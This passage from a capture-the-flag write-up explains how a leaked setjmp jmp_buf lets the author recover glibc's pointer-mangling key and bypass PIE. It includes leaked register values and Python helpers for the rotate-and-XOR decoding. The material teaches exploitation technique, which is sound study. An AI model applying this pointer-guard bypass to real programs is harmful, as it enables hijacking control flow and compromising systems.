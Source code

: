 This cookie looks like a nice leak :-)

Looking at the code, we see that it indeed leak something, and it's the `jmp_buf` structure !

`write(1,&jmp_buf,0x40);`

Analysing what happens when we call `longjmp` with gdb, the `jmp_buf` looked like this:

```c
struct jmp_buf
{
  int stack_leak1;
  int saved_rbp_enc;
  int null1;
  int stack_leak2;
  int null2;
  int stack_leak3;
  int saved_rsp_enc;
  int saved_rip_enc;
};
```

# 🧙🏼‍♂️ - Exploiting

Doing a bit of local python scripting, I was able to extract all of those information thanks to the cookie leak.

```
Printing leaks...
leak1  - 0x00007fff7a4adce8
rbp    - 0x97e09f78bd948eb3
null1  - 0x0000000000000000
leak2  - 0x00007fff7a4adcf8
null2  - 0x0000000000000000
leak3  - 0x00007f735cd0c000
rsp    - 0x97e09f78bf548eb3
rip    - 0xc2dee6868c0a8eb3
```
> Some of you already saw my error...

First, we have stack addresses, so ASLR is bypassed, but this time we don't really care about ASLR, since we simply want to go where the flag is printed, so we need to bypass PIE.

The problem is that `rip` is encoded, and we need to know it's value to bypass PIE. Reversing a bit what the `longjmp` does with this encrypted value, I quickly saw that it does a `ror 11` on it then a `xor` operation... With a key that changes each time we start the binary 🥲

BUT it's not the end ! We have a **leak of the stack**, we have an **encrypted address on the stack** (`rbp`), the `rip` xored with the **same key** and we know that the **3 lowest bytes** of the final value of `rip` MUST be `0x31f` since PIE does not randomize those bytes... We can brute force the xor key ! 

Here's my python code:
```py
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
  ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
  (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))


def calculate_xor_key(known, offset, enc):
  # enc ^ key = known + offset
  # (known+offset) ^ enc = key
  enc_phase1 = ror(enc, 17, 64)
  return (known + offset) ^ enc_phase1

def calculate_setjmp_addr(value, xor_key):
  return ror(value, 17, 64) ^ xor_key
```